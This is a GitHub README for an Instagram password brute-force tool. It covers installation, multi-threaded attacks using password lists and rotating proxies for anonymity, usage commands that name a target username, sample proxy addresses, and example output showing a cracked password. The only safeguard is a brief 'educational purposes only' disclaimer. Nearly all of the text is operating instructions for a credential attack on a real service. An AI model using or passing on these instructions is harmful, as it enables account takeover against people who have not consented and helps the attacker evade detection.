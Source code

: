 
# Instagram Bruter

  

## Description

Instagram Bruter is a password brute-force tool designed to test the security of Instagram accounts. It automates login attempts using a list of passwords and proxies.

## Getting Started  
**Star** this repository to show your support, hit **Fork**, and dive right in!


## Author


Original Authors:
- **Hackertrackersj**
- **OBITORASU**
- **TermuxHackz**

Modified/Updated Version By:
- [**Pralin Khaira**](https://github.com/pralinkhaira)

## Features

- Multi-threaded brute-force attack

- Proxy support for anonymity

- Session resume functionality

- Password list-based attack

- Proxy pruning and statistics tracking

  

## Requirements

- Python 3.9+

- Proxy list

  

## Install Dependencies

  

### Install Pipenv

  

```
pip install pipenv
```

  

### Create Environment

  

Make sure you have Python 3.9 installed

  

```
pipenv --python 3.9
```

  

### Install Requirements

  

```
pipenv install
```

  

## Usage

```sh
python  instagram.py  -u <username> -p <password_list.txt> -px <proxy_list.txt> -m <mode>
```

### Options:

-  `-u, --username` : Target Instagram username or email

-  `-p, --passlist` : Path to password list file

-  `-px, --proxylist` : Path to proxy list file

-  `-m, --mode` : Attack mode (0 to 3, where 0 = 32 bots, 3 = 4 bots)

-  `--prune` : Prune the proxy database (value between 0 and 1)

-  `--stats` : Show proxy statistics

-  `-nc, --no-color` : Disable color output

  

## Example

```sh
python  instagram.py  -u  target_user  -p  passwords.txt  -px  proxies.txt  -m  2
```

  

## Proxies

  

The system needs a list of proxies to work. Once uploaded, proxies are saved into a database.

  

### Upload Proxies

  

Upload a list of proxies into the program. The proxy file must have a format of `ip:port`

  

Example `proxies_list.txt`:

```
3.238.111.248:80
206.189.59.192:8118
165.22.81.30:34100
176.248.120.70:3128
191.242.178.209:3128
180.92.194.235:80
```

  

To upload a list of proxies, use:

```
python instagram.py -px <path to proxy list>
```

  

### Proxy Statistics

  

Gives an insight into the health of the proxies in the database.

```
python instagram.py --stats
```

  

### Prune Proxies

  

Removes proxies with a score below a given threshold. It is recommended to prune the database of proxies with a score below `Q1`.

```
python instagram.py --prune 0.05
```

  

## Running the Tool

  

### Start Attack

```
python instagram.py -u <username> -p <passlist>
```

### Example Output (During Attack)

```
[-] Wordlist: passlist.txt
[-] Username: Sami09.1
[-] Password: 272
[-] Complete: 45.51%
[-] Attempts: 228
[-] Browsers: 273
[-] Exists: True
```

### Example Output (Successful Attempt)

```

[-] Wordlist: passlist.txt
[-] Username: Sami09.1
[-] Password: Sami123
[-] Complete: 62.67%
[-] Attempts: 314
[-] Browsers: 185
[-] Exists: True

[!] Password Found
[+] Username: Sami09.1
[+] Password: Sami123

```

  

## Disclaimer

This tool is for educational purposes only. Unauthorized use against accounts you do not own is illegal.

## Star History

[![Star History Chart](https://api.star-history.com/svg?repos=pralinkhaira/Insta-Cypher,pralinkhaira/Instagram-Bruter&type=Timeline)](https://www.star-history.com/#pralinkhaira/Insta-Cypher&pralinkhaira/Instagram-Bruter&Timeline)
